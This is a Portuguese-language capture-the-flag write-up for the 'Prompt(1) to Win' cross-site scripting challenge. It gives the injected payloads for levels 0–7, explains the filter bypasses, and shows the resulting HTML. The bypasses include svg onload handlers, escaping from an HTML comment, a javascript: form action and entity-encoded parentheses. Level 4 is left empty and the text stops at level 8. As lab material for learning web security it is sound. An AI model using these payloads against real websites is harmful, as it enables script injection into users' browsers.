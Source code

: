 # Prompt(1) to Win
###### Solved by @joaoselim
>This challenge is about XSS, JavaScript, Injeção de Código
## About the challenge
Nesse desafio de XSS(Cross-Site Scripting) temos o objetivo de realizar diversas injeções de código JavaScript, para chamar prompt(1) através de 15 níveis diferentes

## Solutions
#### Desafio 0:

[![questao0.png](https://i.postimg.cc/W4g2WgjP/questao0.png)](https://postimg.cc/kVM3DVBj)

Input:
```
"><script>prompt(1)</script>
```
Nesse primeiro caso temos um código simples, sem filtragem, oque devemos nos atentar é em sair do atributo `value="` usando `"`, e encerrar a tag `input` usando `/>`. A partir daí
inserimos nosso script `<script>prompt(1)</script>`

HTML Source:
```
<input type="text" value=""><script>alert(1)</script>">
```

#### Desafio 1:

[![questao1.png](https://i.postimg.cc/cL9SFhPj/questao1.png)](https://postimg.cc/jD7m5HxQ)

Input:
```
<svg/ onload=prompt(1) 
```
Seguido de uma quebra de linha ou espaço.

Agora começamos a ter que contornar tipos de filtragem. Nessa questão a regex `/<\/?[^>]+>/gi` faz com que ao inserirmos qualquer informação em uma tag HTML encerrada por `>` será 
substituido no código por `''`, para isso, abrimos o construtor `<` e fornecemos um tipo de imagem svg, e usamos uma `/` para que ocorra uma quebra no formato da tag, em seguida afirmamos para o código 
usando o `onload` que ao carregar a imagem deve chamar `prompt(1)`

HTML Source:
```
<article><svg/ onload=prompt(1)
</article>
```

#### Desafio 2:

[![questao2.png](https://i.postimg.cc/13hHLVNK/questao2.png)](https://postimg.cc/zV7KhB7L)

Input:
```
<svg><script>prompt&#40;1)</script>
```
Ainda lidando com filtragem, agora não podemos usar nem `=` nem `(`, ent para isso tem se conhecimento que todas as teclas de um teclado tem um código correspondente, no caso do `(` é `&#40`. Iniciamos nosso input abrindo a tag `<svg>`, concluimos colocando um script dentro dela `<script></script>` e chamando o prompt(1) dentro da tag script

HTML Source:
```
<svg><script>prompt&#40;1)</script>
```

#### Desafio 3:

[![questao3.png](https://i.postimg.cc/yx6bwggd/questao3.png)](https://postimg.cc/9RSb9fB5)

Input:
```
--!><svg onload=prompt(1)
```
Nessa questão nosso input está sendo colocado dentro de `<!--...-->`, então tudo que escrevemos é visto pelo código como comentário, então precisamos encerrar a sessão de comentarios.
Para isso é possível usar de 2 formas, `-->` e `--!>`, mas como temos a filtragem de `->` então temos de usar a segunda opção. 
Então seguimos nosso input com um tipo `svg` em que ao ser carregado chama o `prompt(1)`

HTML Source:
```
<!-- --!><svg onload=prompt(1) -->
```

#### Desafio 4:

[![questao4.png](https://i.postimg.cc/nz5tYGwx/questao4.png)](https://postimg.cc/mzQqTCsp)

Input:
```

```
resolução

HTML Source:
```

```

#### Desafio 5:

[![questao5.png](https://i.postimg.cc/R0kkWZ3C/questao5.png)](https://postimg.cc/GBj7NrJ6)

Input:
```
"type=image src onerror
="prompt(1)
```
Primeiro fechamos as aspas do `value="`, assim oque escrevermos não vai mais ser registrado como valor. Em seguida fornecemos ao código uma imagem falsa, assim o nosso src vai dar como erro. Mas pra conseguirmos burlar o filtro, temos de colocar o `onerror` em uma linha e o `=` em outra.

HTML Source:
```
<input value=""type=image src onerror
="prompt(1)" type="text">
```

#### Desafio 6:

[![questao6.png](https://i.postimg.cc/KvV2CMBj/questao6.png)](https://postimg.cc/svpqh1nC)

Input:
```
javascript:prompt(1)#{"action":1}
```
A entrada de javascript:prompt(1) é aceita por na filtragem só se restringir `script:` ou `data:`, usando `#` com função de split assim preenchendo as partes de acordo:
```
var segments = input.split('#');
var formURL = segments[0];      // "javascript:prompt(1)"
var formData = JSON.parse(segments[1]); // {"action":1}
```
assim definindo javascript:prompt(1) como action

HTML Source:
```
<form action="javascript:prompt(1)" method="post"><input name="action" value="1"></form>                         
<script>                                                  
    // forbid javascript: or vbscript: and data: stuff    
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();                       
    else                                                  
        document.write("Action forbidden.")               
</script>    
```

#### Desafio 7:

[![questao7.png](https://i.postimg.cc/3wm8yZs0/questao7.png)](https://postimg.cc/XZNSm97n)

Input:
```
"><img/src=#"onerror='/*#*/prompt(1)'
```
Nesse desafio se tem um limite de 12 caracteres por linha e se divide a entrada com `#`, com isso temos de montar em partes nosso código.
Então assim como no desafio 5, temos uma imagem com src falso, e para que a atribuição do que se deve fazer ao dar erro não seja atrapalhada, nós comentamos o trecho da linha `<p class="comment" title="` terminando a linha de cima com `/*` e começando a próxima com `*/`

HTML Source:
```
<p class="comment" title=""><img/src="></p>
<p class="comment" title=""onerror='/*"></p>
<p class="comment" title="*/prompt(1)'"></p>
```

#### Desafio 8:


